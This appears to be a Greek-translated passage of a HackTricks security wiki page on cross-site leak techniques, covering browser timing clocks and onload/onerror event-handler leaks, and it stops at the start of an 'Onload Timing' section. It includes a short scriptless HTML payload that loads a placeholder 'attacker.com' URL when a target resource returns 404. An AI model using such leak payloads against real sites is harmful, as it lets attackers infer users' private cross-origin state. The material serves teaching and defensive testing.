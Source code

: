 {% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## **Τεχνικές Βασισμένες στο Χρόνο**

Ορισμένες από τις παρακάτω τεχνικές θα χρησιμοποιήσουν το χρόνο ως μέρος της διαδικασίας για να ανιχνεύσουν διαφορές στις πιθανές καταστάσεις των ιστοσελίδων. Υπάρχουν διάφοροι τρόποι μέτρησης του χρόνου σε έναν περιηγητή ιστού.

**Ρολόγια**: Το API [performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now) επιτρέπει στους προγραμματιστές να αποκτούν μετρήσεις χρόνου υψηλής ανάλυσης.\
Υπάρχει ένας σημαντικός αριθμός APIs που μπορούν να καταχραστούν οι επιτιθέμενοι για να δημιουργήσουν έμμεσες ρολόγια: [Broadcast Channel API](https://developer.mozilla.org/en-US/docs/Web/API/Broadcast\_Channel\_API), [Message Channel API](https://developer.mozilla.org/en-US/docs/Web/API/MessageChannel), [requestAnimationFrame](https://developer.mozilla.org/en-US/docs/Web/API/window/requestAnimationFrame), [setTimeout](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout), CSS animations, και άλλα.\
Για περισσότερες πληροφορίες: [https://xsleaks.dev/docs/attacks/timing-attacks/clocks](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/).

## Τεχνικές Διαχειριστή Εκδηλώσεων

### Onload/Onerror

* **Μέθοδοι Συμπερίληψης**: Πλαίσια, HTML Στοιχεία
* **Ανιχνεύσιμη Διαφορά**: Κωδικός Κατάστασης
* **Περισσότερες πληροφορίες**: [https://www.usenix.org/conference/usenixsecurity19/presentation/staicu](https://www.usenix.org/conference/usenixsecurity19/presentation/staicu), [https://xsleaks.dev/docs/attacks/error-events/](https://xsleaks.dev/docs/attacks/error-events/)
* **Περίληψη**: αν προσπαθείτε να φορτώσετε έναν πόρο, οι εκδηλώσεις onerror/onload ενεργοποιούνται με την επιτυχία/αποτυχία φόρτωσης του πόρου, είναι δυνατόν να καταλάβετε τον κωδικό κατάστασης.
* **Παράδειγμα Κώδικα**: [https://xsinator.com/testing.html#Event%20Handler%20Leak%20(Script)](https://xsinator.com/testing.html#Event%20Handler%20Leak%20\(Script\))

{% content-ref url="xs-search/cookie-bomb-+-onerror-xs-leak.md" %}
[cookie-bomb-+-onerror-xs-leak.md](xs-search/cookie-bomb-+-onerror-xs-leak.md)
{% endcontent-ref %}

Το παράδειγμα κώδικα προσπαθεί να **φορτώσει αντικείμενα σενάριων από JS**, αλλά **άλλες ετικέτες** όπως αντικείμενα, στυλ, εικόνες, ήχοι θα μπορούσαν επίσης να χρησιμοποιηθούν. Επιπλέον, είναι επίσης δυνατό να εισαχθεί η **ετικέτα απευθείας** και να δηλωθούν τα γεγονότα `onload` και `onerror` μέσα στην ετικέτα (αντί να την εισάγουμε από JS).

Υπάρχει επίσης μια έκδοση χωρίς σενάριο αυτής της επίθεσης:
```html
<object data="//example.com/404">
<object data="//attacker.com/?error"></object>
</object>
```
In this case if `example.com/404` is not found `attacker.com/?error` will be loaded.

### Onload Timing
